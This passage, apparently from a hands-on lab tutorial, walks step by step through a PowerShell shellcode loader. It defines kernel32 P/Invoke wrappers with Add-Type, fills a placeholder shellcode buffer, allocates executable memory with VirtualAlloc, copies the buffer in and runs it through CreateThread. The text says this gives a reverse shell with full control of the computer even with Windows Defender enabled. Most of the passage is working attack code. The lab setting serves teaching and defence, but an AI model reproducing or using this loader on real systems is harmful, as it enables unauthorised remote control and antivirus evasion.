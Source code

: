 ```powershell
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   
```
Then paste this line, replacing the placeholder:
```powershell
[Byte[]] $buf = SHELLCODE_PLACEHOLDER
```
Then copy these lines **one by one:**
```powershell
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

If done properly, the PowerShell terminal in the VM will look like the screenshot below:
![[62a7685ca6e7ce005d3f3afe-1732698537726.png]]
Once you execute the final line in the PowerShell terminal and press `Enter`, you will get a reverse shell in your VM, giving you complete access to the computer even if the Windows Defender is enabled. Now you can issue any command, like issuing `dir`, which will list all the directories:
![[62a7685ca6e7ce005d3f3afe-1727972837925.png]]
